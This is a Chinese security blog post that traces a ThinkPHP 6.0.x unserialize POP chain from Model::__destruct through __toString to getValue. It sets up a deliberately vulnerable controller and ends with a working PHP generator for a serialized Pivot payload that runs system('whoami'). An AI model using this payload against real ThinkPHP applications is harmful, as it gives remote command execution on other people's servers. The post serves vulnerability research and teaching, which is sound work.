










# Thinkphp6高版本反序列化toString新链调试挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/16456  
> **文章ID**: 16456

---

## TP6原生pop链

最近对Thinkphp6框架进行研究学习，探索分析新的toString后半链。我们知道在 ThinkPHP5.x 的POP链中，入口都是 `think\process\pipes\Windows` 类，通过该类触发任意类的 `__toString` 方法。但是 ThinkPHP6.x 的代码移除了 `__toString` 之后的 Gadget 仍然存在，所以我们得继续寻找可以触发 `think\process\pipes\Windows` 类，而POP链先从起点 `__destruct()` 或 `__toString` 方法的点。`__wakeup` 方法开始，因为它们就是`unserialize`的触发点

### 影响范围:

thinkphp<6.0.12

### 环境搭建

这里装tp6.0.x

```
composer create-project topthink/think=6.0.x tp6.0.9

```

删lock文件改comoser.json为6.0.9然后重新安装

```
composer install

```

修改入口Index：`/app/controller/index.php`

```
<?php
namespace app\controller;

class Index
{
    public function index($input='')
    {   
        echo $input;
        unserialize($input);   
    }
}

```

## POP链构建分析

### toString链子寻找

全局搜索\_\_destruct方法找到反序列化入口点

```
/topthink/think-orm/src/Model.php

```

model 类是复用了trait 类 的，可以访问其属性和方法。  
Model 类 是抽象类，不能被实例化，所以我们还需要找到其子类。**Pivot 类**就是我们需要找的类。



当`lazysave==true`调用save方法，我们跟进save



只有`$this->isEmpty()`为返回false，`$this->trigger('BeforeWrite')` 返回true才能往下走  
isEmpty方法需要满足data不为空返回false

```
public function isEmpty(): bool  
{  
    return empty($this->data);  
}

```

trigger方法需要满足`$this->withEvent` 为false才会返回true

```
protected function trigger(string $event): bool  
{  
    if (!$this->withEvent) {  
        return true;  
    }  

    $call = 'on' . Str::studly($event);  

    try {  
        if (method_exists(static::class, $call)) {  
            $result = call_user_func([static::class, $call], $this);  
        } elseif (is_object(self::$event) && method_exists(self::$event, 'trigger')) {  
            $result = self::$event->trigger('model.' . static::class . '.' . $event, $this);  
            $result = empty($result) ? true : end($result);  
        } else {  
            $result = true;  
        }  

        return false === $result ? false : true;  
    } catch (ModelEventException $e) {  
        return false;  
    }  
}

```

之后便是$this->exists属性判断调用方法，这里需要为true

```
$result = $this->exists ? $this->updateData() : $this->insertData($sequence);

```

我们跟进updateData方法



下一步的利用点存在于 $this->checkAllowFields() 中，但是要进入并调用该函数，需要先通过两处if语句：

第一处需要trigger()返回true: 就需要令 `$this->withEvent == false` 即可通过，和前面的一样不用管

第二处需要 `$data == 非空`即可，所以我们跟进 getChangedData() 方法



我们只需要令 `$this->force == true` 即可直接返回 $this-data ，而我们之前也需要设置 `data ==非空`

之后便可以调用到了`$this->checkAllowFields();`

```
protected function checkAllowFields(): array  
{  
    // 检测字段  
    if (empty($this->field)) {  
        if (!empty($this->schema)) {  
            $this->field = array_keys(array_merge($this->schema, $this->jsonType));  
        } else {  
            $query = $this->db();  
            $table = $this->table ? $this->table . $this->suffix : $query->getTable();  

            $this->field = $query->getConnection()->getTableFields($table);  
        }  

        return $this->field;  
    }  

    $field = $this->field;  

    if ($this->autoWriteTimestamp) {  
        array_push($field, $this->createTime, $this->updateTime);  
    }  

    if (!empty($this->disuse)) {  
        // 废弃字段  
        $field = array_diff($field, $this->disuse);  
    }  

    return $field;  
}

```

这里明显看到字符串拼接`$this->table . $this->suffix`，能够用来触发该类的`__toString`魔法函数。必须使`$this->field=null`和`$this->schema=null`才会执行`else`步骤。这两个条件默认都满足，那么继续看`$this->db()`这个方法



该方法中使用了字符串拼接`$this->name . $this->suffix`，可以触发 `__toString()`

至此前半条POP链已经完成，即可以通过字符串拼接去调用 `__toString()`  
可以知道必须要有两个外加条件：

```
$this->data不为空
$this->lazySave == true
$this->withEvent == false
$this->exists == true
$this->force == true

```

调用过程如下：

```
__destruct()——>save()——>updateData()——>checkAllowFields()——>db()——>$this->table . $this->suffix（字符串拼接）——>toString()

```

### toString方法寻找

现在有了触发toString的前半条，只需要寻找`__toString()` 方法，我们全局搜索找到了类**Conversion**中`（vendor/topthink/think-orm/src/model/concern/Conversion.php）`

```
public function __toString()  
{  
    return $this->toJson();  
}

```

跟进toJson方法

```
public function toJson(int $options = JSON_UNESCAPED_UNICODE): string  
{  
    return json_encode($this->toArray(), $options);  
}

```

跟进toArray，我们要利用的是**getAttr方法**

来看看触发条件：  
`$this->visible[$key]`存在，即`$this->visible`存在键名为`$key`的键，而`$key`则来源于`$data`的键名，`$data`则来源于`$this->data`，也就是说`$this->data`和`$this->visible`要有相同的键名`$key`



getAttr方法位于`Attribute`类`（vendor/topthink/think-orm/src/model/concern/Attribute.php）`中：

```
public function getAttr(string $name)
    {
        try {
            $relation = false;
            $value    = $this->getData($name);
        } catch (InvalidArgumentException $e) {
            $relation = $this->isRelationAttr($name);
            $value    = null;
        }

        return $this->getValue($name, $value, $relation);
    }

```

我们跟进getValue发现让`$closure`作为我们想要执行的函数名，`$value`和`$this->data`为参数即可实现任意函数执行，而$this->withAttr是可以控制的

```
$closure = $this->withAttr[$fieldName];
$value   = $closure($value, $this->data);

```



最终的漏洞执行点找到了，我们回到getattr去满足这个条件  
首先将`$key`传入`getData`方法，继续跟进`getData`方法。由于$name为键值所以不是空

```
public function getData(string $name = null)
    {
        if (is_null($name)) {
            return $this->data;
        }

        $fieldName = $this->getRealFieldName($name);

        if (array_key_exists($fieldName, $this->data)) {
            return $this->data[$fieldName];
        } elseif (array_key_exists($fieldName, $this->relation)) {
            return $this->relation[$fieldName];
        }

        throw new InvalidArgumentException('property not exists:' . static::class . '->' . $name);
    }

```

跟进getRealFieldName方法

```
protected function getRealFieldName(string $name): string
    {
        return $this->strict ? $name : Str::snake($name);
    }

```

当`$this->strict`为`true`时直接返回`$name`，即`$key`  
回到上面的`getData`方法，此时`$fieldName = $key`，进入判断语句：

```
if (array_key_exists($fieldName, $this->data)) {
    return $this->data[$fieldName];
}

```

返回`$this->data[$key]`，再回到上上面的`getAttr`方法：

```
return $this->getValue($name, $value, $relation);

```

也即：

```
$this->getValue($key, $this->data[$key], null);

```

跟进getValue方法

```
protected function getValue(string $name, $value, $relation = false)
    {
        // 检测属性获取器
        $fieldName = $this->getRealFieldName($name);
        $method    = 'get' . Str::studly($name) . 'Attr';

        if (isset($this->withAttr[$fieldName])) {
            if ($relation) {
                $value = $this->getRelationValue($relation);
            }

            if (in_array($fieldName, $this->json) && is_array($this->withAttr[$fieldName])) {
                $value = $this->getJsonValue($fieldName, $value);
            } else {
                $closure = $this->withAttr[$fieldName];
                $value   = $closure($value, $this->data);
            }
        .....

```

也就是`$this->withAttr[$this->getRea7Fie1dName($name)]`设置为system

跟进getRealFieldName，其中`$this->strict`默认为true，如果将`$this->convertNameTocame1`设置为false，则会直接返回`$name`  
所以就相当于`$this->withAttr[$name]`为一个命令执行函数

```
protected function getRealFieldName(string $name): string  
{  
    if ($this->convertNameToCamel || !$this->strict) {  
        return Str::snake($name);  
    }  

    return $name;  
}

```

而`$this->getValue($name, $value, $relation);`中的`$name`就是getAttr中的`$key`，也就是convention.php中的 `$data`的键值，命令执行参数就是`$this->data[$key]`

至此pop链找到了，总结后半部分需要的外加条件：

```
$this->table = new think\model\Pivot();
$this->data = ["key"=>$command];  //要传入的参数
$this->visible = ["key"=>1];
$this->withAttr = ["key"=>$function];  //要执行的函数名称
$this->$strict = true;

```

## POP流程

前半条触发tostring链子



后半条触发rce链子



构造pop链payload

```
<?php  
namespace think\model\concern;  

trait Attribute {  
    private $data = ['cyz' => 'whoami'];  
    private $withAttr = ['cyz' => 'system'];  
}  

trait ModelEvent {  
    protected $withEvent = true;  
}  

namespace think;  

abstract class Model {  
    use model\concern\Attribute;  
    use model\concern\ModelEvent;  

    private $exists;  
    private $force;  
    private $lazySave;  
    protected $suffix;  

    function __construct($a = '') {  
        $this->exists = true;  
        $this->force = true;  
        $this->lazySave = true;  
        $this->withEvent = false;  
        $this->suffix = $a;  
    }  
}  

namespace think\model;  

use think\Model;  

class Pivot extends Model {}  

echo urlencode(serialize(new Pivot(new Pivot())));  
?>

```

成功RCE


